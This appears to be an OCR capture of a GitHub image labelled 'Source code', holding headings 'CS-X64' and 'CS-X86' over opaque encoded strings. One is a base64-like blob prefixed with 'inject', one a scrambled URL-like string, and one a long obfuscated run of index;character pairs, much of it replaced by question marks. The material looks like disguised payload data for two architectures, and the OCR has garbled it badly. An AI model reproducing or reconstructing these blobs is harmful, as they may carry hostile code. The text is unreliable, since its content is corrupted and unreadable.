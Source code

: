 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsadf48|2?,?5;6,f??;10,?Y;14??,r;????1????8,.;??22???,??8;???26???,t;????30,@;??34????,@;?38,m??;????42,i????;46???,t;50??,2;54?,???0;58,?5;6?2,????1;????66,E;????70???,Y;7???4??,?Y;78,?n??;8?2,D;8?6,s???;90,H???;94,????S;9???8???,m;10????2????,s;?106,G?;110,????z;11????4,F;1?1?8??,3;1????22,s;??126,???d?;???130,??c;1??34,?c;?138,?l;??142,????W;1????46?,???A;15?0,U;????154,?4;1????58,Y;???162???,r;1?66,a??;17???0?,h;1?7???4,d?;?17???8,??L;18???2??,?c;1???86,i;??190????,L;?|N????yD5rw????x?fgHz??Y?jL?yr?wEz.??tb0??8L9B???tzJ????b@???xmj@v???kt????mMLr??i9cb??t????L?yf2Cl????w???03u???z5X????0R11D???LElV??2Y???V1???D??Y???mMXnN????BzD??mNNs????b??fqHu????vYSJ??DnmqV???usc?XC????GDd???2zwo???5Fw???ov30?aus???ru?AdxB???zcEY???McxfB????lzgcW???frC???A?s4MU?15??z4?ru???gYe????BXrs??muad????fwh????f?Lrd??3B????DLA?3Mc?3y????n??i????0?e9Lrthrf
